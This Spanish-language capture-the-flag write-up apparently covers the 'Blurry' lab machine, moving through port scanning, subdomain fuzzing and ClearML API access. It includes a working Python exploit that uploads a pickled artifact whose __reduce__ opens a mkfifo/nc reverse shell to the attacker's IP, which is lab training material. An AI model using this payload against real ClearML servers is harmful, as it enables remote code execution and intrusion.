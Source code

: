 #medium #tecnicas #windows #fuzzing 
### Ping
```python
ping -c 1 10.10.11.19
PING 10.10.11.19 (10.10.11.19) 56(84) bytes of data.
64 bytes from 10.10.11.19: icmp_seq=1 ttl=63 time=152 ms

--- 10.10.11.19 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 152.472/152.472/152.472/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
# Nmap 7.94SVN scan initiated Sun Jun  9 12:19:54 2024 as: nmap -p- --open -sC -sV --min-rate 3000 -n -Pn -oN Scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.15s latency).
Not shown: 65477 closed tcp ports (reset), 56 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  9 12:20:32 2024 -- 1 IP address (1 host up) scanned in 38.23 seconds
```

### Enumeración del puerto 80 (http)

tenemos una web que nos permite iniciar sesión con un usuario aleatorio. en este caso usamos admin
![[Pasted image 20240609155324.png]]

`admin`
después de iniciar sesión podemos identificar un proceso que se esta ejecutando
![[Pasted image 20240609155509.png]]

`experiments`
después de hacer clic en el proceso podemos ver el file path de un archivo en la web. se encuentra en otro subdominio así que vamos a enumerar
![[Pasted image 20240609155706.png]]

### Fuzzing con wfuzz

enumerando subdominios podemos encontrar efectivamente el subdominio donde se encuentra el archivo que hemos visto anteriormente y tenemos uno mas llamado `chat` 
![[Pasted image 20240609155815.png]]

### Api
podemos obtener las credenciales de una api lo cual es bueno.
![[Pasted image 20240611122420.png]]

### clearml-ini
al abrir `clearml-ini` vamos a ingresar las credenciales de la api que creamos esto nos creara un archivo `clearml.config` en el home 
![[Pasted image 20240611125038.png]]

### exploit
en esta web nos muestra un ejemplo de como aprovechar la vulnerabilidad para subir un archivo y poder tener ejecución de comandos usaremos este ejemplo para crear nuestro propio exploit para poder cargar un archivo a la maquina llamado `ddd-task` con la reverse shell 
![[Pasted image 20240611125301.png]]

### upload_pwned.py
```python
```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 9001 >/tmp/f"
        return (os.system, (cmd,))

command = RunCommand()

task = Task.init(project_name="Black Swan",
                 task_name="ddd-task",
                 tags=["review"],
                 task_type=Task.TaskTypes.data_processing,
                 output_uri=True)

task.upload_artifact(name="ddd_artifact",
                     artifact_object=command,
                     retries=2,
                     wait_on_upload=True)

task.execute_remotely(queue_name='default')
```

### shell
ahora solo debemos ejecutar el exploit y estaremos a la escucha para obtener la reverse shell. se subirá una nueva tarea al proyecto y luego de eso debemos esperar que se complete. 
`Nota# si no obtenemos la shell podemos usar ```clearml-agent execute --id``` pasandole el id de nuestra tarea para que se ejecute. y luego solo debemos esperar un rato para que este proceso se complete` 
![[Pasted image 20240611125901.png]]

### Escalada De privilegios

tenemos permisos sobre el binario `/usr/bin/evaluate_model /models/*.pth` así que podemos usarlo para explotar una escalada de privilegios
![[Pasted image 20240611141132.png]]

